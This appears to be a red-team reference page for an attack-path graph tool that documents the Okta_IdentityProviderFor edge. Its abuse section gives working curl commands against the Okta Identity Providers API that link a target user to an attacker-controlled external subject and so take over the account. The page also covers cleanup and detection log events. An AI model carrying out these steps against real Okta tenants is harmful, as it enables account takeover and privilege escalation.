

## General Information

The traversable Okta_IdentityProviderFor edges represent the relationships between identity providers and the Okta users who are linked to them:



OpenHound emits this edge from an `Okta_IdentityProvider` to each Okta user returned by the IdP user listing. The edge means Okta has an IdP user link for the destination user; the exact authentication impact depends on the IdP protocol, account link policy, subject mapping, JIT provisioning, and claim trust settings.

## Abuse Info

An attacker who controls the source identity provider can authenticate as, provision, or influence the destination Okta user when Okta trusts that IdP. For SAML IdPs, control means the ability to issue assertions accepted by Okta or possession of the trusted signing key. For OIDC IdPs, control means the ability to authenticate as the linked external subject or mint tokens from the trusted provider. For social IdPs, control usually means control of the linked external account.

If the IdP link already points to an attacker-controlled external subject, the attacker can sign in through the IdP and receive an Okta session as the destination user. If the attacker controls the IdP administratively, they can modify source-side attributes, issue a matching SAML/OIDC assertion, or pre-link a controlled external ID where the IdP type supports API linking.

Using the Admin Console and source IdP:

1. Identify the source IdP protocol and linked destination user.
2. In Okta, open **Security** > **Identity Providers** and review the source IdP's account linking, subject, JIT provisioning, and group assignment settings.
3. In the source IdP, identify the external subject, NameID, email, username, or immutable ID that maps to the destination Okta user.
4. Create or modify an IdP-side account with the mapped subject, or issue a valid assertion/token for that subject if the IdP signing material or issuer is controlled.
5. Start an Okta sign-in flow that routes to the source IdP, or use an IdP-initiated flow where the IdP supports it.
6. Complete authentication at the source IdP.
7. Use the resulting Okta session as the destination user and follow any downstream app, group, or admin-role edges available to that user.

Using the Okta API:

1. Set the Okta org URL, API credential, source IdP ID, destination Okta user ID, and the controlled external subject value.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export IDP_ID="0oa..."
    export TARGET_OKTA_USER_ID="00u..."
    export CONTROLLED_EXTERNAL_ID="external-subject-or-nameid"
    ```

2. Retrieve the IdP configuration and save it before making any changes.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/idps/$IDP_ID" \
      | tee /tmp/okta-idp-original.json \
      | jq '{id, type, name, status, protocol: .protocol.type, accountLink: .policy.accountLink, provisioning: .policy.provisioning, subject: .policy.subject}'
    ```

3. Confirm that the destination user is linked to the IdP and capture the external ID Okta currently associates with that user.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/idps/$IDP_ID/users?limit=200&expand=user" \
      | jq -r '.[] | select(.id == env.TARGET_OKTA_USER_ID) | [.id, .externalId, .profile.email, .profile.subjectNameId] | @tsv'
    ```

4. If the IdP type and policy support explicit linking, link the destination Okta user to the attacker-controlled external subject. For SAML IdPs, this requires persistent NameID support.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"externalId\":\"$CONTROLLED_EXTERNAL_ID\"}" \
      "$OKTA_ORG/api/v1/idps/$IDP_ID/users/$TARGET_OKTA_USER_ID" \
      | jq '{id, externalId, profile}'
    ```

    A successful response returns the linked IdP user object. If the request fails, abuse must happen by changing the source IdP's subject/claim output or by authenticating as the existing linked external account.

5. Verify the linked external ID.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/idps/$IDP_ID/users?limit=200&expand=user" \
      | jq -r '.[] | select(.id == env.TARGET_OKTA_USER_ID) | [.id, .externalId, .profile.email, .profile.subjectNameId] | @tsv'
    ```

6. Authenticate through the source IdP as the controlled external subject. Okta's Management API can verify the trust and link, but the Okta browser session is created by completing the SAML, OIDC, or social sign-in flow.

## Cleanup after Abuse

Cleanup for `Okta_IdentityProviderFor` means restoring the IdP-to-user link and IdP claim behavior, removing any temporary group memberships or JIT users caused by the login, and revoking the Okta sessions created through the source IdP.

Cleanup using Admin Console:

1. In the source IdP, remove attacker-created users, claims, groups, app assignments, and signing material changes.
2. In Okta, open **Security** > **Identity Providers** and restore the original account linking, subject mapping, JIT provisioning, group assignment, and claim trust settings.
3. Unlink unintended IdP user links or relink the Okta user to the correct external subject.
4. Delete JIT-provisioned Okta users that were created only for the operation.
5. Remove IdP-driven group memberships that should not remain.
6. Revoke Okta sessions for the destination user.

Cleanup using API:

1. Restore the saved IdP configuration if the Okta-side IdP settings were changed.

    ```bash
    curl -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d @/tmp/okta-idp-original.json \
      "$OKTA_ORG/api/v1/idps/$IDP_ID" \
      | jq '{id, type, name, status, lastUpdated, policy}'
    ```

2. Unlink the destination user from the source IdP if the link was changed or should be forced through the account-link policy again.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/idps/$IDP_ID/users/$TARGET_OKTA_USER_ID"
    ```

    A successful unlink returns `204 No Content`.

3. Remove a temporary IdP-driven group membership if one was created.

    ```bash
    export TEMP_GROUP_ID="00g..."

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TEMP_GROUP_ID/users/$TARGET_OKTA_USER_ID"
    ```

4. Revoke Okta sessions and OAuth tokens for the destination user.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_OKTA_USER_ID/sessions?oauthTokens=true"
    ```

5. Verify the IdP configuration and linked users are back to the expected state.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/idps/$IDP_ID" \
      | jq '{id, type, name, status, accountLink: .policy.accountLink, provisioning: .policy.provisioning, subject: .policy.subject}'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/idps/$IDP_ID/users?limit=200&expand=user" \
      | jq -r '.[] | select(.id == env.TARGET_OKTA_USER_ID) | [.id, .externalId, .profile.email, .profile.subjectNameId] | @tsv'
    ```

## Opsec Considerations

Okta System Log events can include `user.authentication.auth_via_IDP`, `user.authentication.auth_via_inbound_SAML`, `user.session.start`, IdP lifecycle events such as `system.idp.lifecycle.update`, and IdP key events such as `system.idp.key.create`. If the IdP adds the user to groups, `group.user_membership.add` and downstream application SSO events can follow.

The source IdP also records the authentication, claim changes, key changes, and administrator actions. A privileged Okta user authenticating through a newly changed IdP, a new external subject, or an unexpected source tenant is a high-signal detection.

## References

- [Okta Identity Providers API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/IdentityProvider/)
- [Okta Enterprise Identity Provider guide](https://developer.okta.com/docs/guides/add-an-external-idp/openidconnect/main/)
- [Okta SAML SSO integration guide](https://developer.okta.com/docs/guides/build-sso-integration/saml2/main/)
- [Okta User Sessions API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Adam Chester: Identity Providers for RedTeamers](https://blog.xpnsec.com/identity-providers-redteamers/)
